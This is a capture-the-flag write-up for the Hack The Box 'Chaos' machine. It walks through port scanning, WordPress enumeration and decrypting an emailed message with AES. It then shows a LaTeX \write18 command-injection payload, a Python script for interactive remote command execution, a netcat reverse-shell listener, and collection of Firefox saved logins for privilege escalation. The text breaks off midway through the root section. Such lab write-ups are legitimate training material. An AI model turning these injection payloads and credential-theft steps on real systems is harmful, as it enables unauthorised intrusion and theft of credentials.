





---
search:
  exclude: true
---
# Chaos Writeup

## Introduction :

Chaos is a Medium linux box released back in December 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-01 ]-[ 10.10.14.42/23 ]-[~]
      └→ sudo nmap -vvv -sTU -p- 10.10.10.120 --max-retries 0 -Pn --min-rate=1000 | grep Discovered
      [sudo] password for nihilist:
      Discovered open port 10000/udp on 10.10.10.120
      Discovered open port 993/tcp on 10.10.10.120
      Discovered open port 110/tcp on 10.10.10.120
      Discovered open port 80/tcp on 10.10.10.120
      Discovered open port 995/tcp on 10.10.10.120
      Discovered open port 143/tcp on 10.10.10.120
      Discovered open port 10000/tcp on 10.10.10.120
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-01 ]-[ 10.10.14.42/23 ]-[~]
      └→ sudo nmap -sCVU -p10000 10.10.10.120
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-01 17:33 BST
      Nmap scan report for 10.10.10.120
      Host is up (0.070s latency).
    
      PORT      STATE SERVICE VERSION
      10000/udp open  webmin  (https on TCP port 10000)
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 1.16 seconds
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-01 ]-[ 10.10.14.42/23 ]-[~]
      └→ nmap -sCVT -p993,110,80,995,143,10000 10.10.10.120
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-01 17:33 BST
      Nmap scan report for 10.10.10.120
      Host is up (0.046s latency).
    
      PORT      STATE SERVICE  VERSION
      80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
      |_http-server-header: Apache/2.4.34 (Ubuntu)
      |_http-title: Site doesn't have a title (text/html).
      110/tcp   open  pop3     Dovecot pop3d
      |_pop3-capabilities: SASL AUTH-RESP-CODE UIDL STLS PIPELINING TOP CAPA RESP-CODES
      | ssl-cert: Subject: commonName=chaos
      | Subject Alternative Name: DNS:chaos
      | Not valid before: 2018-10-28T10:01:49
      |_Not valid after:  2028-10-25T10:01:49
      |_ssl-date: TLS randomness does not represent time
      143/tcp   open  imap     Dovecot imapd (Ubuntu)
      |_imap-capabilities: SASL-IR more STARTTLS LOGINDISABLEDA0001 post-login Pre-login listed LOGIN-REFERRALS IDLE ID have capabilities ENABLE IMAP4rev1 OK LITERAL+
      | ssl-cert: Subject: commonName=chaos
      | Subject Alternative Name: DNS:chaos
      | Not valid before: 2018-10-28T10:01:49
      |_Not valid after:  2028-10-25T10:01:49
      |_ssl-date: TLS randomness does not represent time
      993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
      |_imap-capabilities: SASL-IR more Pre-login post-login OK listed LOGIN-REFERRALS IDLE AUTH=PLAINA0001 have capabilities ENABLE IMAP4rev1 ID LITERAL+
      | ssl-cert: Subject: commonName=chaos
      | Subject Alternative Name: DNS:chaos
      | Not valid before: 2018-10-28T10:01:49
      |_Not valid after:  2028-10-25T10:01:49
      |_ssl-date: TLS randomness does not represent time
      995/tcp   open  ssl/pop3 Dovecot pop3d
      |_pop3-capabilities: SASL(PLAIN) AUTH-RESP-CODE UIDL USER PIPELINING TOP CAPA RESP-CODES
      | ssl-cert: Subject: commonName=chaos
      | Subject Alternative Name: DNS:chaos
      | Not valid before: 2018-10-28T10:01:49
      |_Not valid after:  2028-10-25T10:01:49
      |_ssl-date: TLS randomness does not represent time
      10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
      |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 45.60 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's add the chaos.htb hostname to our /etc/hosts file and browse to it:

sadly this is just a generic webpage with nothing really interesting on it. So instead we check out the port 10000 which reveals us the webmin service:

this webpage doesn't hint us towards any CVE nor can we guess the credentials, so we gobust the website instead:
    
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-01 ]-[ 10.10.14.42/23 ]-[~]
      └→ gobuster dir -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -s 200,204,301,302 -u http://10.10.10.120
      /wp (Status: 301)
      /javascript (Status: 301)
    
    

Even though browsing to 10.10.10.120 gives us the "no direct IP allowed" there was still a wordpress website for us to find! so checking it out :

As expected we have a wordpress website. It only has a password protected post in there, so we scan the website using wpscan:
    
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-01 ]-[ 10.10.14.42/23 ]-[~]
      └→ wpscan --url http://10.10.10.120/wp/wordpress
      _______________________________________________________________
               __          _______   _____
               \ \        / /  __ \ / ____|
                \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
                 \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                  \  /\  /  | |     ____) | (__| (_| | | | |
                   \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
               WordPress Security Scanner by the WPScan Team
                               Version 3.7.9
             Sponsored by Automattic - https://automattic.com/
             @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
      _______________________________________________________________
    
    [...]
    
    Interesting Finding(s):
    
    [+] Headers
     | Interesting Entry: Server: Apache/2.4.34 (Ubuntu)
     | Found By: Headers (Passive Detection)
     | Confidence: 100%
    
    [+] XML-RPC seems to be enabled: http://10.10.10.120/wp/wordpress/xmlrpc.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
     | References:
     |  - http://codex.wordpress.org/XML-RPC_Pingback_API
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
     |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
     |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
    
    [+] http://10.10.10.120/wp/wordpress/readme.html
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 100%
    
    [+] http://10.10.10.120/wp/wordpress/wp-cron.php
     | Found By: Direct Access (Aggressive Detection)
     | Confidence: 60%
     | References:
     |  - https://www.iplocation.net/defend-wordpress-from-ddos
     |  - https://github.com/wpscanteam/wpscan/issues/1299
    
    [+] WordPress version 4.9.8 identified (Insecure, released on 2018-08-02).
     | Found By: Rss Generator (Passive Detection)
     |  - http://10.10.10.120/wp/wordpress/index.php/feed/, https://wordpress.org/?v=4.9.8
     |  - http://10.10.10.120/wp/wordpress/index.php/comments/feed/, https://wordpress.org/?v=4.9.8
    
    [+] WordPress theme in use: twentyseventeen
     | Location: http://10.10.10.120/wp/wordpress/wp-content/themes/twentyseventeen/
     | Last Updated: 2020-02-25T00:00:00.000Z
     | Readme: http://10.10.10.120/wp/wordpress/wp-content/themes/twentyseventeen/README.txt
     | [!] The version is out of date, the latest version is 2.2
     | Style URL: http://10.10.10.120/wp/wordpress/wp-content/themes/twentyseventeen/style.css?ver=4.9.8
     | Style Name: Twenty Seventeen
     | Style URI: https://wordpress.org/themes/twentyseventeen/
     | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
     | Author: the WordPress team
     | Author URI: https://wordpress.org/
     |
     | Found By: Css Style In Homepage (Passive Detection)
     |
     | Version: 1.7 (80% confidence)
     | Found By: Style (Passive Detection)
     |  - http://10.10.10.120/wp/wordpress/wp-content/themes/twentyseventeen/style.css?ver=4.9.8, Match: 'Version: 1.7'
    
    [+] Enumerating All Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
     Checking Config Backups - Time: 00:00:00 <===> (21 / 21) 100.00% Time: 00:00:00
    
    [i] No Config Backups Found.
    
    [!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up
    
    [+] Finished: Wed Apr  1 18:08:43 2020
    [+] Requests Done: 51
    [+] Cached Requests: 5
    [+] Data Sent: 12.352 KB
    [+] Data Received: 290.885 KB
    [+] Memory used: 199.727 MB
    [+] Elapsed time: 00:00:08
    
    

Not much interesting results here, the trick here was that we had to find the username human and use it as a password: 

 
    
    
      username – ayush
      password – jiujitsu
    

Once decrypted, we have credentials to use on the email service which was referenced in a note we found earlier so we will go to the subdomain webmail.chaos.htb and use those credentials there after we added it to our hosts file: 

Once logged in as ayush we have access to his webmail and to a particular draft message that contains the username "sahay" with an encrypted textfile and the python script used to decrypt it: 

    
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ mv ~/Downloads/en.py . && mv ~/Downloads/enim_msg.txt .
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ ls
      enim_msg.txt  en.py
    

The python script is an AES CBC encrypting script: 
    
    
      def encrypt(key, filename):
          chunksize = 64*1024
          outputFile = "en" + filename
          filesize = str(os.path.getsize(filename)).zfill(16)
          IV =Random.new().read(16)
    
          encryptor = AES.new(key, AES.MODE_CBC, IV)
    
          with open(filename, 'rb') as infile:
              with open(outputFile, 'wb') as outfile:
                  outfile.write(filesize.encode('utf-8'))
                  outfile.write(IV)
    
                  while True:
                      chunk = infile.read(chunksize)
    
                      if len(chunk) == 0:
                          break
                      elif len(chunk) % 16 != 0:
                          chunk += b' ' * (16 - (len(chunk) % 16))
    
                      outfile.write(encryptor.encrypt(chunk))
    
      def getKey(password):
                  hasher = SHA256.new(password.encode('utf-8'))
                  return hasher.digest()
    

From there we write our own python script to decrypt the enim_msg.txt file, we'll use [Snowscan's](https://snowscan.io/htb-writeup-chaos) python script which uses the Crypto library: 
    
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ pip install Crypto
      Collecting Crypto
        Downloading https://files.pythonhosted.org/packages/fc/bb/0b812dc02e6357606228edfbf5808f5ca0a675a84273578c3a199e841cd8/crypto-1.4.1-py2.py3-none-any.whl
      Collecting Naked (from Crypto)
        Downloading https://files.pythonhosted.org/packages/02/36/b8107b51adca73402ec1860d88f41d958e275e60eea6eeaa9c39ddb89a40/Naked-0.1.31-py2.py3-none-any.whl (590kB)
          100% |████████████████████████████████| 593kB 831kB/s
      Collecting shellescape (from Crypto)
        Downloading https://files.pythonhosted.org/packages/d0/f4/0081137fceff5779cd4205c1e96657e41cc2d2d56c940dc8eeb6111780f7/shellescape-3.8.1-py2.py3-none-any.whl
      Collecting pyyaml (from Naked->Crypto)
        Downloading https://files.pythonhosted.org/packages/64/c2/b80047c7ac2478f9501676c988a5411ed5572f35d1beff9cae07d321512c/PyYAML-5.3.1.tar.gz (269kB)
          100% |████████████████████████████████| 276kB 1.3MB/s
      Requirement already satisfied: requests in /usr/lib/python2.7/dist-packages (from Naked->Crypto) (2.22.0)
      Building wheels for collected packages: pyyaml
        Running setup.py bdist_wheel for pyyaml ... done
        Stored in directory: /home/nihilist/.cache/pip/wheels/a7/c1/ea/cf5bd31012e735dc1dfea3131a2d5eae7978b251083d6247bd
      Successfully built pyyaml
      Installing collected packages: pyyaml, Naked, shellescape, Crypto
      Successfully installed Crypto-1.4.1 Naked-0.1.31 pyyaml-5.3.1 shellescape-3.8.1
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ nano decrypt.py
    
    
    
      from Crypto import Random
      from Crypto.Cipher import AES
      from Crypto.Hash import SHA256
    
      def getKey(password):
              hasher=SHA256.new(password)
              return hasher.digest()
    
      with open('enim_msg.txt') as f:
              c = f.read()
    
      filesize = int(c[:16])
      print("filesize: %d" % filesize)
      iv = c[16:32]
      print("IV: %s" % iv)
      key = getKey("sahay")
      cipher = AES.new(key,AES.MODE_CBC,iv)
      print(cipher.decrypt(c[32:]))
    

` 

And with the decrypted message we are now hinted towards a hidden directory :
    
    
      http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3
    
    

Going there we see a PDF making webpage using an ajax php script to generate said pdf files. 

So let's use burpsuite to intercept the request in order to send it to the repeater (CTRL+R) and go there (CTRL+SHIFT+R)

Once there we send the request and see that the webpage is using LaTeX to generate our pdf files. Therefore we can try to do some arbitrary commands using LaTeX: 

Although as you can see a few commands are blacklisted: 

 

The trick here was, that we could use the following command : 
    
    
      \immediate\write18{id}
    
    

` 

As you can see we have been able to execute the "id" command, which gave us a hint that we could get cmd execution as www-data. For this next part we'll use [Snowscan's](https://snowscan.io/htb-writeup-chaos) python script that sends the request, but also uses regular expressions to remove the excessive amount of data:
    
    
      import re
      import requests
    
      headers = {
              'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
              'X-Requested-With': 'XMLHttpRequest',
              'Cookie': 'redirect=1'
      }
    
      while(True):
              cmd=raw_input('> ')
    
              data = {
                      'content': '\\immediate\\write18{%s}' % cmd,
                      'template': 'test1'
              }
    
              r = requests.post('http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php', headers=headers,data=data)
              out = r.text
              m = re.search('.*\(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsa.fd\)\n\(/usr/share/texlive/texmf-dist/tex/latex/amsfonts/umsb.fd\)(.*)\[1',out, re.MULTILINE|re.DOTALL)
              if m:
                      print(m.group(1))
    
    
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ python snowscan_is_awesome.py
      > id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
    
      > ls -lash /home
      total 16K
      4.0K drwxr-xr-x  4 root  root  4.0K Oct 28  2018 .
      4.0K drwxr-xr-x 22 root  root  4.0K Dec  9  2018 ..
      4.0K drwx------  5 ayush ayush 4.0K Nov 24  2018 ayush
      4.0K drwx------  5 sahay sahay 4.0K Nov 24  2018 sahay
    
      > which nc
      /bin/nc
    
    

As expected we have 2 users on the box, ayush and sahay. And we have netcat there so we can try to use it to get a reverse shell onto the box but unfortunately that doesnt work so we could upload our own netcat binary there in /tmp and use it to get ourselves a reverse shell like snowscan did, but since python is there on the machine we'll just use a python one liner instead: 

And we are logged in as www-data ! lets privesc to the user ayush since we know his password "jiujitsu"
    
    
      ┌[ nihilist @ Mahakala ]-[ 2020-04-02 ]-[ 10.10.14.42/23 ]-[~/_HTB/Chaos]
      └→ nc -lvnp 9001
      Listening on 0.0.0.0 9001
      Connection received on 10.10.10.120 36402
      /bin/sh: 0: can't access tty; job control turned off
      $ id
      uid=33(www-data) gid=33(www-data) groups=33(www-data)
      $ su -l ayush
      su: must be run from a terminal
      $ python -c 'import pty;pty.spawn("/bin/bash")'
      www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ cd /
      cd /
      www-data@chaos:/$ su -l ayush
      su -l ayush
      Password: jiujitsu
    
      ayush@chaos:~$ cat user.txt
      cat user.txt
      Command 'cat' is available in '/bin/cat'
      The command could not be located because '/bin' is not included in the PATH environment variable.
      cat: command not found
    
    

2 things here, first we had to spawn a TTY shell using python's pty module, then we have been able to privesc to the user ayush, however from here we cannot use "cat" because the PATH environment variable hasn't been properly set, so we fix it ourselves: 
    
    
      ayush@chaos:~$ cat user.txt
      cat user.txt
      Command 'cat' is available in '/bin/cat'
      The command could not be located because '/bin' is not included in the PATH environment variable.
      cat: command not found
    
      ayush@chaos:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    
      ayush@chaos:~$ cat user.txt
      cat user.txt
      eeXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now in order to privesc on this box we can use the Firefox credentials path, which consists in remembering that we had a webmin application running, and that by default the root user credentials are used to log in to the application. In ayush's home directory there is a .mozilla folder that contains encrypted firefox credentials in logins.json: 
    
    
      ayush@chaos:~$ ls -lash
      ls -lash
      total 40K
      4.0K drwx------ 6 ayush ayush 4.0K Apr  2 12:13 .
      4.0K drwxr-xr-x 4 root  root  4.0K Oct 28  2018 ..
      4.0K drwxr-xr-x 2 root  root  4.0K Oct 28  2018 .app
         0 -rw------- 1 root  root     0 Nov 24  2018 .bash_history
      4.0K -rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
      4.0K -rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
      4.0K drwx------ 3 ayush ayush 4.0K Apr  2 12:13 .gnupg
      4.0K drwx------ 3 ayush ayush 4.0K Apr  2 11:34 mail
      4.0K drwx------ 4 ayush ayush 4.0K Sep 29  2018 .mozilla
      4.0K -rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
      4.0K -rw------- 1 ayush ayush   33 Oct 28  2018 user.txt
      ayush@chaos:~$ cd .mozilla
      cd .mozilla
      ayush@chaos:~/.mozilla$ ls -lash
      ls -lash
      total 16K
      4.0K drwx------ 4 ayush ayush 4.0K Sep 29  2018 .
      4.0K drwx------ 6 ayush ayush 4.0K Apr  2 12:13 ..
      4.0K drwx------ 2 ayush ayush 4.0K Sep 29  2018 extensions
      4.0K drwx------ 4 ayush ayush 4.0K Sep 29  2018 firefox
      ayush@chaos:~/.mozilla$ cd firefox
      cd firefox
      ayush@chaos:~/.mozilla/firefox$ ls -lash
      ls -lash
      total 20K
      4.0K drwx------  4 ayush ayush 4.0K Sep 29  2018  .
      4.0K drwx------  4 ayush ayush 4.0K Sep 29  2018  ..
      4.0K drwx------ 10 ayush ayush 4.0K Oct 27  2018  bzo7sjt1.default
      4.0K drwx------  4 ayush ayush 4.0K Oct 15  2018 'Crash Reports'
      4.0K -rw-r--r--  1 ayush ayush  104 Sep 29  2018  profiles.ini
      ayush@chaos:~/.mozilla/firefox$ cd bzo7sjt1.default
      cd bzo7sjt1.default
      ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ ls -lash
      ls -lash
      total 15M
      4.0K drwx------ 10 ayush ayush 4.0K Oct 27  2018 .
      4.0K drwx------  4 ayush ayush 4.0K Sep 29  2018 ..
      4.0K -rw-------  1 ayush ayush   24 Oct 27  2018 addons.json
      4.0K -rw-r--r--  1 ayush ayush  222 Oct 27  2018 AlternateServices.txt
      560K -rw-------  1 ayush ayush 559K Oct 11  2018 blocklist-addons.json
       28K -rw-------  1 ayush ayush  28K Oct  7  2018 blocklist-gfx.json
      136K -rw-------  1 ayush ayush 136K Oct  7  2018 blocklist-plugins.json
      420K -rw-------  1 ayush ayush 420K Oct 25  2018 blocklist.xml
      4.0K drwx------  2 ayush ayush 4.0K Oct 27  2018 bookmarkbackups
       92K -rw-------  1 ayush ayush  92K Oct 27  2018 cert9.db
      4.0K -rw-------  1 ayush ayush  362 Oct 27  2018 cert_override.txt
      4.0K -rw-------  1 ayush ayush  170 Sep 29  2018 compatibility.ini
      4.0K -rw-------  1 ayush ayush  809 Sep 29  2018 containers.json
      224K -rw-r--r--  1 ayush ayush 224K Oct 24  2018 content-prefs.sqlite
      512K -rw-r--r--  1 ayush ayush 512K Oct 27  2018 cookies.sqlite
       32K -rw-r--r--  1 ayush ayush  32K Oct 27  2018 cookies.sqlite-shm
         0 -rw-r--r--  1 ayush ayush    0 Oct 27  2018 cookies.sqlite-wal
      4.0K drwx------  3 ayush ayush 4.0K Oct 27  2018 crashes
      4.0K drwx------  3 ayush ayush 4.0K Oct 27  2018 datareporting
      4.0K -rw-r--r--  1 ayush ayush  167 Sep 29  2018 extensions.ini
      8.0K -rw-------  1 ayush ayush 5.6K Oct 27  2018 extensions.json
      192K -rw-r--r--  1 ayush ayush 192K Oct 24  2018 formhistory.sqlite
      4.0K drwx------  3 ayush ayush 4.0K Sep 29  2018 gmp
       36K -rw-------  1 ayush ayush  36K Oct 27  2018 key4.db
      1.3M -rw-r--r--  1 ayush ayush 1.3M Oct 11  2018 kinto.sqlite
    **4.0K -rw-------  1 ayush ayush  570 Oct 27  2018 logins.json**
      4.0K -rw-r--r--  1 ayush ayush 3.7K Sep 29  2018 mimeTypes.rdf
      4.0K drwx------  2 ayush ayush 4.0K Oct 25  2018 minidumps
         0 -rw-r--r--  1 root  root     0 Oct 27  2018 .parentlock
       96K -rw-r--r--  1 ayush ayush  96K Sep 29  2018 permissions.sqlite
      4.0K -rw-------  1 ayush ayush  868 Sep 29  2018 pkcs11.txt
       10M -rw-r--r--  1 ayush ayush  10M Oct 27  2018 places.sqlite
       32K -rw-r--r--  1 ayush ayush  32K Oct 27  2018 places.sqlite-shm
       36K -rw-r--r--  1 ayush ayush  33K Oct 27  2018 places.sqlite-wal
      4.0K -rw-------  1 ayush ayush  469 Sep 29  2018 pluginreg.dat
       12K -rw-------  1 ayush ayush  12K Oct 27  2018 prefs.js
       44K -rw-r--r--  1 ayush ayush  43K Oct 11  2018 revocations.txt
      4.0K drwx------  2 ayush ayush 4.0K Oct 26  2018 saved-telemetry-pings
       20K -rw-------  1 ayush ayush  17K Sep 29  2018 search.json.mozlz4
         0 -rw-r--r--  1 ayush ayush    0 Oct 27  2018 SecurityPreloadState.txt
      4.0K -rw-------  1 ayush ayush   90 Oct 27  2018 sessionCheckpoints.json
      4.0K drwx------  2 ayush ayush 4.0K Oct 27  2018 sessionstore-backups
      8.0K -rw-r--r--  1 ayush ayush 5.3K Oct 27  2018 SiteSecurityServiceState.txt
      4.0K drwxr-xr-x  5 ayush ayush 4.0K Oct  9  2018 storage
      4.0K -rw-r--r--  1 ayush ayush  512 Sep 29  2018 storage.sqlite
      4.0K -rwx------  1 ayush ayush   29 Sep 29  2018 times.json
      256K -rw-r--r--  1 ayush ayush 256K Oct 27  2018 webappsstore.sqlite
       32K -rw-r--r--  1 ayush ayush  32K Oct 27  2018 webappsstore.sqlite-shm
         0 -rw-r--r--  1 ayush ayush    0 Oct 27  2018 webappsstore.sqlite-wal
      4.0K -rw-------  1 ayush ayush 1.1K Oct 27  2018 xulstore.json
    

So we print out his logins.json file :
    
    
      ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ cat logins.json
      cat logins.json
      {"nextId":3,"logins":[{"id":2,"hostname":"**https://chaos.htb:10000** ","httpRealm":null,**"formSubmitURL":"https://chaos.htb:10000"** ,"usernameField":"user","passwordField":"pass","encryptedUsername":"MDIEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECDSAazrlUMZFBAhbsMDAlL9iaw==","encryptedPassword":"MDoEEPgAAAAAAAAAAAAAAAAAAAEwFAYIKoZIhvcNAwcECNx7bW1TuuCuBBAP8YwnxCZH0+pLo6cJJxnb","guid":"{cb6cd202-0ff8-4de5-85df-e0b8a0f18778}","encType":1,"timeCreated":1540642202692,"timeLastUsed":1540642202692,"timePasswordChanged":1540642202692,"timesUsed":1}],"disabledHosts":[],"version":2}
    

Looking at logins.json we see that hte formSubmitURL is https://chaos.htb:10000 which is the webmin application we found earlier, So the idea here is, since tar is there on the box : 
    
    
      ayush@chaos:~/.mozilla/firefox/bzo7sjt1.default$ which tar
      which tar
      /bin/tar
    

